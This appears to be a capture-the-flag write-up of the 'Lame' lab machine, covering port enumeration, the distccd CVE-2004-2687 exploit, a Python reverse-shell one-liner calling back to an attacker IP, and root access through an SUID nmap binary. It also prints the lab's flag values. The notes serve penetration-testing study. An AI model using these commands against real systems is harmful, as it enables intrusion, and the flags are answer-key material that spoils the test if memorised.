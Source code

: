 ```yaml
---
sticker: emoji//1f613
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 139  | SMB     |
| 445  | SMB     |
| 3632 | distccd |



# RECONNAISSANCE
---

FTP anonymous login is enabled, let's check it out:


![[Pasted image 20250402152900.png]]

Nothing in here, `smb` anonymous login is not enabled unfortunately, let's keep on going, if we remember the scan, we got the following on port `3632`:

```
PORT     STATE SERVICE VERSION
3632/tcp open  distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```

We got something called `distccd`, `distcc` is a tool designed to distribute compilation of C/C++/Objective-C code across multiple machines on a network. It speeds up large builds by parallelizing the workload.

Since we got `distccd v1`, we can search for an exploit regarding that version:

![[Pasted image 20250402153430.png]]




# EXPLOITATION
---


This is a pretty old CVE, we are facing `CVE-2004-2687`, we can search for an exploit in GitHub:

![[Pasted image 20250402153623.png]]

Link: https://github.com/angelpimentell/distcc_cve_2004-2687_exploit


If we use the exploit, we can see this:

![[Pasted image 20250402153655.png]]


We can get ourselves an interactive shell: 

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.239",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

If we check up our listener:

![[Pasted image 20250402154059.png]]

Let's proceed with privesc.



# PRIVILEGE ESCALATION
---


First step is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

We can read `user.txt` now:

```
daemon@lame:/$ cat /home/makis/user.txt
6c8d8478b697ee1e975fb840878c905a
```

Let's use linpeas for a way to get into root:

![[Pasted image 20250402154841.png]]

We got `nmap` binary set with a `4000 SUID`, let's check `gtfobins`:

![[Pasted image 20250402155155.png]]

So, we need to do the following in order to get root:

```
/usr/bin/nmap --interactive
!sh
```

![[Pasted image 20250402155218.png]]

We can finally read `root.txt`:

```
sh-3.2# cat /root/root.txt
259db45cfc8e1723f21fb0387f48ff5f
```


![[Pasted image 20250402155300.png]]


